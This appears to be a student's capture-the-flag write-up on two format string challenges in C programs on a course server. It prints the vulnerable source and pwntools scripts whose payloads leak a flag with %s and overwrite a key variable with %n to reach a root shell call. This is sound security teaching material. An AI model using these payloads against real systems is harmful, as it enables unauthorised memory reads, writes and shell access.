






# FSI-CTFS: Week #7

**Goal:** Come up with an exploit to the format string vulnerability on the program running in the CTF server.

## **First Challenge**

**Checksec**

- Architecture is x86
- Regions in the memory with RWX permissions
- Cannary found in the stack
- Stack doesn't have execute permissions (NX -no execute- enabled)
- No address randomization



**Program analysis**

- printf(buffer) in line 27 is vulnerable to a format string attack.
- Flag is saved in a string called flag (so it's stored in memory).

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];                    /* IMPORTANT variable in this line*/

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);                             /* Format String vulnerability in this line*/

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

### **Attack**

Because the flag is read and then stored in a string called flag, it will be in memory. Therefore, we can abuse the printf call and make it print our flag!

But first, we need to find the address in memory in which the flag string is stored. We accomplish this with the help of gdb.



Now that we have found the memory address of the flag, all we have to do is trick the program into printing!

> By editing the given python script, we can achieve our goal as shown below:


**Python Scipt**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
``` 

Let's explain the payload:
- **\x60\xc0\x04\x08** is the memory address of the flag variable we found earlier using gdb;
- *%s* is used to print the value stored in that address (our flag).



## **Second Challenge**


**Checksec**

Checksec gives the same information as the program in the first challenge.




**Program analysis**

The program implemented a minor defense ("special feature"). The new version has a verification to allow system administrators to get access to a shell. It verifies if the 'key' variable corresponds to *0xbeef*. If it does, it grants the user access to a shell.

**Program**

```c
#include <stdio.h>
#include <stdlib.h>

int key = 0;                                /* IMPORTANT variable in this line*/

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);                         /* Format String vulnerability in this line*/
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    }
        
    return 0;
}
```

### **Attack**
- To bypass this all we need to do is write the correct key to the memory address in which this variable is stored. In order to find this out, we can, once again, use gdb.



Now that we have found the memory address of the key, we need to write in that address the correct value of the key, *0xbeef*.

> We can achieve our goal by using the following python script:

**Python Scipt**

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"...")
p.sendline(b"####\x34\xC0\x04\x08%48871x%n")
p.interactive()
```

Once again, let's explain the payload:
- **\x34\xC0\x04\x08** is the memory address of the key variable we found earlier using gdb.

Now, this is where it get's tricky...
> In order to write to memory using format strings, we need to the *%n* format string parameter, which prints the number of characters printed. This is useful because it enables us to write whatever we wish! 

And thats what this part --> ####  **key mem address**  %48871x%n is for! But let's break it down. We need to write '0xbeef' to the address, which is equal to 48879. We have already written 4 characters/bytes for the memory address, so we need to write an addicional 4 characters in the start --> **####** and 48871 more at the end --> **%48871x%n**.
Addicionally, the 4 first characters can be whatever you want (ex: 1234 or #### or @@@@), but be aware of the special formatting characters used in the printf.
- The *%x* is used as well in order the convert this value into hexadecimal characters.


> And obtained our second desired flag!


